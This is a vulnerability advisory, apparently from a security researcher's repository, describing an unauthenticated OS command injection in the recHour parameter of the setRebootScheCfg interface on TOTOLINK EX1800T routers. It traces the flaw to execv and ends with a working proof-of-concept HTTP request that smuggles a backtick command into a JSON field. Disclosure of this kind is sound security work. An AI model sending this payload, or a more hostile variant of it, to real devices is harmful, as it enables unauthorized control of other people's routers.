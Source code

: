 # OS Command Injection 07 setRebootScheCfg->recHour

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘recHour’ parameter of the setRebootScheCfg interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the recHour field. Successful exploitation allows the attacker to execute any command.

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setRebootScheCfg`​ Interface, `recHour`​variable recevies the key parameter:

![image](assets/image-20250305143146-m26zxut.png)

And passes it to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `recHour`​'s value

In `Uci_Set_Str`​:

![image](assets/image-20250305134119-m70q2q6.png)

the `a4`​ parameter we can pass by `recHour`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection

![image](assets/image-20250305134440-eim7vg9.png)

## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 126
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741068107856
Priority: u=0

{"mode":"","week":"","hour":"","minute":"","recHour":"0`id>>../recHour.txt`","token":"","topicurl":"setting/setRebootScheCfg"}
```

![image](assets/image-20250305143222-bf1uhty.png)

![image](assets/image-20250305143231-dffppz7.png)
